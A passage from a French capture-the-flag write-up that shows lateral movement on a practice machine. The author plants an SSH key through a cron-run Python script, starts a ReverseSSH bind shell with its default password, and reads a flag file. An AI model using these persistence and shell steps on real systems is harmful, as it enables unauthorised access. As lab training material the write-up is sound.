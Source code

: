 J'ai d'abord modifié le script Python pour qu'il ajoute ma clé publique SSH aux clés autorisées. L'action se passe correctement d'après *pspy* :  

```plain
2022/01/28 10:04:01 CMD: UID=0    PID=3992   | /usr/sbin/CRON -f 
2022/01/28 10:04:01 CMD: UID=1001 PID=3993   | python3 /opt/Flag.py 
2022/01/28 10:04:01 CMD: UID=1001 PID=3994   | sh -c mkdir -p /home/Boe/.ssh/ 
2022/01/28 10:04:01 CMD: UID=1001 PID=3995   | mkdir -p /home/Boe/.ssh/ 
2022/01/28 10:04:01 CMD: UID=1001 PID=3996   | sh -c echo ssh-rsa AAAAB---snip ---qcT7Q== > /home/Boe/.ssh/authorized_keys
```

Mais dans la pratique on dirait bien que l'authentification par clé est désactivée pour cet utilisateur.  

J'ai préféré lancer un ReverseSSH en mode bind :  

```python
os.system("/var/www/public_html/reverse-sshx64 &")
```

Par défaut ça nous ouvre un shell sur le port 31337. Le mot de passe est *letmeinbrudipls*.  

```plain
Joxter@moee:/var/www/public_html$ ss -lntp 
State      Recv-Q Send-Q                                                               Local Address:Port                                                                           Peer Address:Port  
LISTEN     0      128                                                                              *:22                                                                                        *:*      
LISTEN     0      50                                                                       127.0.0.1:3306                                                                                      *:*      
LISTEN     0      128                                                                             :::80                                                                                       :::*      
LISTEN     0      128                                                                             :::22                                                                                       :::*      
LISTEN     0      128                                                                             :::31337                                                                                    :::*
```

L'utilisateur *Boe* possède un binaire setuid root, le boss final en somme (NB: ReverseSSH se moque du nom d'utilisateur d'où l'incohérence entre l'utilisateur utilisé et celui obtenu) :  

```plain
Joxter@moee:/var/www/public_html$ ssh -p 31337 127.0.0.1
The authenticity of host '[127.0.0.1]:31337 ([127.0.0.1]:31337)' can't be established.
RSA key fingerprint is 9c:e4:6e:a9:dc:0a:4f:00:ea:6d:da:da:da:e6:09:57.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[127.0.0.1]:31337' (RSA) to the list of known hosts.
Joxter@127.0.0.1's password: 
Boe@moee:/home/Boe$ ls -l 
total 16 
-rw-r--r-- 1 root root  342 Nov 16  2020 flag3.txt 
-rwsr-xr-x 1 root root 8288 Nov 18  2020 ropit
Boe@moee:/home/Boe$ cat flag3.txt 
Once again, thanks Joxter for protecting me(Boe) from the disaster which was about to come and take my life. Now I have some work to do with my own task so let me create some plan for ROP(Record of Performance) about you and Snufkin. Therefore stay safe, don't be lazy and try to use the "Forebodings" more. 

- Moominpappa's Memories (Boe)
```
